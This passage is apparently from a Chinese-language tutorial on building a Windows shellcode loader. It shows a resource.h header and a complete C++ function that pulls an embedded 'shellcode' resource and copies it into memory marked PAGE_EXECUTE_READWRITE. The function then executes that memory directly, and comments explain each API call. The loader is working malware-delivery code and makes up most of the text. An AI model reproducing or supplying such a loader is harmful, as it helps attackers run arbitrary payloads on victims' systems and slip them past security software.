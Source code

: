 

添加完资源后会在当前项目生成一个`resource.h`, 代码如下所示，这里只需注意这段代码`#define IDR_SHELLCODE1 101`

```cpp
#include <Windows.h>
#include "resource.h"


//{{NO_DEPENDENCIES}}
// Microsoft Visual C++ 生成的包含文件。
// 供 Shellcode加载器.rc 使用
//

//IDR_SHELLCODE1 通常用于标识和引用项目中的某个资源，例如嵌入到可执行文件中的二进制数据、图像或其他类型的资源，在项目的其他部分（例如代码或资源脚本中），可以通过使用 IDR_SHELLCODE1 符号来引用这个资源，而不是直接使用数字常量（如 101
#define IDR_SHELLCODE1                  101

// Next default values for new objects
// 
#ifdef APSTUDIO_INVOKED
#ifndef APSTUDIO_READONLY_SYMBOLS
#define _APS_NEXT_RESOURCE_VALUE        102
#define _APS_NEXT_COMMAND_VALUE         40001
#define _APS_NEXT_CONTROL_VALUE         1001
#define _APS_NEXT_SYMED_VALUE           101
#endif
#endif
```



## 实现代码

以下是完整shellcode加载器代码: 

```cpp
#include <Windows.h>
#include "resource.h"

//通过资源加载ShellCode
void ResourceLoader() {

    /*
    FindResource用于查找指定模块（EXE或DLL文件）中指定名称和类型的资源,其语法格式如下:
    HRSRC FindResource(
          HMODULE hModule,  //指向包含要查找的资源的模块的句柄,若该参数为NULL，则查找当前进程中的资源
          LPCTSTR lpName,   //指向资源名称的指针，可以是一个字符串或者一个整数，若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源标识符
          LPCTSTR lpType    //指向资源类型的指针，可以是一个字符串或者一个整数。若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源类型标识符
    );
    如果查找成功，则返回资源句柄；否则返回NULL
    */
    HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_SHELLCODE1), L"shellcode");

    //用于获取资源的大小
    DWORD ResSize = SizeofResource(NULL, Res);

    //LoadResource函数会将指定资源句柄所指向的资源数据加载到内存中，并返回一个指向该资源数据的句柄
    HGLOBAL Load = LoadResource(NULL, Res);

    //申请内存
    void* buffer = VirtualAlloc(NULL, ResSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(buffer, Load, ResSize);

    //执行shellcode
    ((void(*)(void)) buffer)();
}
```